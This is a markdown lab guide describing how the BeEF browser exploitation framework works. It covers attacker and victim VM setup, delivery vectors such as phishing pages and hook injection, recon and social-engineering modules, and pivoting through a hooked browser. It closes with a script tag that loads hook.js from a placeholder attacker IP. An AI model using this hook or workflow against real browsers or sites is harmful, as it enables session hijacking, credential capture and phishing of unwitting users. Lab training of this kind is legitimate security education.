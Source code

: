 # How BeEF works — conceptual process (step-by-step)

This is the *process flow* you should understand and be able to reproduce safely in a lab.

1. **Provision attacker & victim environments**

   * Attacker: Kali VM (BeEF + admin browser).
   * Victim(s): isolated VM(s) with browsers (Firefox, Chrome) on an internal-only network.
   * Use snapshots and host-only/internal networking — never expose lab to the Internet.

2. **Deploy & configure BeEF on the attacker**

   * Install from distro package or Git (lab machines).
   * Configure `config.yaml`: set `beef.http.host` to the attacker VM IP on the isolated network and change default credentials.
   * Start the service and confirm the UI is reachable on the internal IP and port.

3. **Create a delivery vector that causes a browser to load `hook.js`**
   Common safe lab vectors:

   * Serving a controlled test HTML page that includes the hook.
   * Injecting the hook into a purposely vulnerable target (DVWA / Juice Shop) running in your lab.
   * Crafting a phishing page hosted on your lab webserver (only for lab victims).

4. **Victim browser loads the hook**

   * The browser executes `hook.js`. The script registers with the BeEF server and appears in the dashboard as a “hooked browser.”

5. **Operator selects a hooked browser and runs modules**

   * Use recon modules first (fingerprint browser, enumerate plugins).
   * Use social engineering modules next (fake prompts, overlays) if you’re demonstrating user-trick techniques.
   * Collect results and evidence; keep everything documented.

6. **Post-hook activities (lab only)**

   * Limited pivoting: use the hooked browser as an HTTP client/proxy to probe internal hosts (no guaranteed persistence).
   * Run calibrated demonstrations that show credential capture risks, cookie leakage, or internal resource access (always anonymized/simulated).

7. **Tear down & revert**

   * Revert victim snapshots. Preserve logs and reports for the engagement.

---

# Safe, minimal example artifacts (lab-only)

These are the *conceptual* pieces you will use in a lab. Do **not** use them on third-party sites.

**Hook tag (what the hook looks like)**

```html
<!-- Lab-only, served from attacker VM -->
<script src="http://<attacker-ip>:3000/hook.js"></script>
```
